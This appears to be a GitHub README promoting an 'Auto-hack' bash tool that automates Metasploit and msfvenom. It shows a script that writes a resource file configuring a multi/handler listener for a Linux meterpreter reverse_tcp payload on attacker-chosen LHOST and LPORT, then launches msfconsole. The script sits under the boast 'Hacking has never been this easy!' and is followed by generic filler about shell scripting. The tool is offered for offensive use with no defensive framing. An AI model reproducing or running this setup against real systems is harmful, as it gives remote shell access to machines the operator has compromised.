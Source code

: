 ## 🟢 Auto-hack
Automation with bash scripts!
**Hacking has never been this easy!**
```bash
echo "
use exploit/multi/handler
set PAYLOAD linux/x86/meterpreter/reverse_tcp
set LHOST $ip
set LPORT $port
set ExitOnSession false
exploit -j -z
" > msfpayloads/linux.rc
msfconsole -r msfpayloads/linux.rc
```

## 🩸 MsfVenom Auto starts Metasploit!
<img src="Screenshot_2021-04-09_04_04_07.png" width=700>
</hr>

## What is a shell script?
>A shell script is a computer program designed to be run by the Unix shell, a command-line interpreter. The various dialects of shell scripts are considered to be >scripting languages. Typical operations performed by shell scripts include file manipulation, program execution, and printing text. 
</hr>

## Why Use Bash Scripting?
Bash scripts can be used for various purposes, such as executing a shell command, running multiple commands together, customizing administrative tasks, performing task automation etc. So knowledge of bash programming basics is important for every Linux user.
</hr>

## ⏲️ Real Hackers hack time!
Hackers are also time hackers, we always need to remember that time is not on anyone's side but as long as you keep pp the pace with it then it will not be as cruel
to you.
